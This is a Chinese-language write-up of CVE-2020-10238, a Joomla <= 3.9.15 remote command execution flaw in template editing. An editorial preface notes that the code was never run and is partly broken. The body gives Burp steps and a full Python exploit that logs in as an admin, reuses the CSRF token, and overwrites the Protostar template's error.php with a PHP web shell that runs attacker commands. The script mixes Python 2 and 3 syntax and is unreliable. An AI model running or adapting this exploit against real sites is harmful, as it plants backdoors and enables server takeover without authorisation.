

## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：Administrator非Super User登录及自身CSRF token，模板目录可写

- **适用与权限边界（1）**：文中借superuser抓包是实验请求发现方式，实际脚本用普通admin，不应误说需偷superuser token。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **操作与副作用边界（2）**：删index全部内容/覆盖error.php是破坏性验证；模板ID506/Protostar硬编码。保留原步骤及请求方法。执行条件包括隔离且获授权的可恢复环境、预先记录相关文件/账号/配置/业务记录状态；响应完成不能等同无副作用，恢复时须核对该操作涉及的实际对象。

- **证据待核（3）**：Python2与print表达式混用、返回False只查None；命令未URL编码、成功状态未检查；图有重复尾片。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

- **事实待核（4）**：&lt;=3.9.15无起始版本，需官方受影响范围。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

（CVE-2020-10238）Joomal \<= 3.9.15 远程命令执行漏洞
====================================================

一、漏洞简介
------------

二、漏洞影响
------------

\<= 3.9.15

三、复现过程
------------

    http://www.0-sec.org/administrator/index.php?option=com_templates&view=template&id=506&file=aG9tZQ==

使用admin进行登录

Joomla<=3.9.15远程命令执行漏洞/media/rId24.png)

### 思路：

-   首先超级管理员跟管理员的后台界面是不同的
-   将恶意代码添加到index.php里面
-   使用管理员账户修改index.php，通过超级管理员进行index.php的文件编辑来获取到返回请求。

Joomla<=3.9.15远程命令执行漏洞/media/rId26.png)

> 为了方便阅读，这里我们删掉index.php的内容，只保留shell

Joomla<=3.9.15远程命令执行漏洞/media/rId27.png)

> 黄色部分为超级管理员的token，Joomal通过此令牌来防止csrf

这里我们先在burp里面保存此请求，先试用管理员账户进行登录，获取一下管理员账户的token。

Joomla<=3.9.15远程命令执行漏洞/media/rId28.png)

Joomla<=3.9.15远程命令执行漏洞/media/rId29.png)

> 如上图黄色部分为管理员的token，我们用管理员的token替换超级管理员的token，并且编辑url

Joomla<=3.9.15远程命令执行漏洞/media/rId30.png)

Joomla<=3.9.15远程命令执行漏洞/media/rId31.png)

Joomla<=3.9.15远程命令执行漏洞/media/rId32.png)

### poc

Joomla<=3.9.15远程命令执行漏洞/media/rId34.png)

    #!/usr/bin/python
    import sys
    import requests
    import re
    import argparse

    def extract_token(resp):
        match = re.search(r'name="([a-f0-9]{32})" value="1"', resp.text, re.S)
        if match is None:
            print("[-] Cannot find CSRF token!\n") + "[-] You are not admin account!"
            return None
        return match.group(1)
    def try_admin_login(sess,url,uname,upass):
        admin_url = url+'/administrator/index.php'
        print('[+] Getting token for admin login')
        resp = sess.get(admin_url, verify=True)
        token = extract_token(resp)
        # print token
        if not token:
            return False
        print('[+] Logging in to admin')
        data = {
            'username': uname,
            'passwd': upass,
            'task': 'login',
            token: '1'
        }
        resp = sess.post(admin_url, data=data, verify=True)
        if 'task=profile.edit' not in resp.text:
            print('[!] Admin Login Failure!')
            return None
        print('[+] Admin Login Successfully!')
        return True

    def rce(sess,url,cmd):
        getjs = url + '/administrator/index.php?option=com_templates&view=template&id=506&file=L2Vycm9yLnBocA%3D%3D'
        resp = sess.get(getjs, verify=True)
        token = extract_token(resp)
        if (token==None) : sys.exit()
        filename='error.php'
        shlink = url + '/administrator/index.php?option=com_templates&view=template&id=506&file=506&file=L2Vycm9yLnBocA%3D%3D'
        shdata_up = {
            'jform[source]': "<?php echo 'Hacked by HK\n' ;system($_GET['cmd']); ?>",
            'task': 'template.apply',
            token: '1',
            'jform[extension_id]': '506',
            'jform[filename]': '/' + filename
        }
        shreq = sess.post(shlink, data=shdata_up)
        path2shell = '/templates/protostar/error.php?cmd='+cmd
        # print '[+] Shell is ready to use: ' + str(path2shell)
        print '[+] Checking:'
        shreq = sess.get(url + path2shell)
        shresp = shreq.text
        print shresp + '[+] Shell link: \n' + (url + path2shell)
        print '[+] Module finished.'

    def main() :
        
        # Construct the argument parser
        ap = argparse.ArgumentParser()
        # Add the arguments to the parser
        ap.add_argument("-url", "--url", required=True,
                        help=" URL for your Joomla target")
        ap.add_argument("-u", "--username", required=True,
                        help="username")
        ap.add_argument("-p", "--password", required=True,
                        help="password")
        ap.add_argument("-cmd", "--command", default="whoami",
                        help="command")
        args = vars(ap.parse_args())
        # target
        url = format(str(args['url']))
        print '[+] Your target: ' + url
        # username
        uname = format(str(args['username']))
        # password
        upass = format(str(args['password']))
        # command
        command = format(str(args['command']))
        
        sess = requests.Session()
        if(try_admin_login(sess,url,uname,upass) == None) : sys.exit()
        rce(sess,url,command)
    if __name__ == "__main__":
        sys.exit(main())

参考链接
--------

> https://github.com/HoangKien1020/CVE-2020-10238/tree/master/CVE-2020-10238
